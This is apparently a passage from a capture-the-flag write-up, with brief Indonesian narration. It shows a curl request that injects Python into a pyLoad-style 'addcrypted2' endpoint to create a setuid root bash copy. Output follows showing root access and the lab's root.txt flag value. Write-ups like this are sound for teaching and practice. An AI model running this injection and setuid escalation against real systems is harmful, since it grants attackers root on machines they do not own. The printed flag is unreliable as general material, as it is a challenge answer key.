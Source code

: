 ```bash
curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system(\"cp%20/bin/bash%20/tmp/shell; chmod%206777%20/tmp/shell\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://127.0.0.1:8000/flash/addcrypted2'
```


setelah menjalankkan code di atas giliran menjalankan

```bash
./shell -p
```

```bash
shell-5.0# id
uid=1001(sau) gid=1001(sau) euid=0(root) egid=0(root) groups=0(root),1001(sau)
shell-5.0# cat /root/root.txt
a896e1a01e7129a25b1054370090f881
```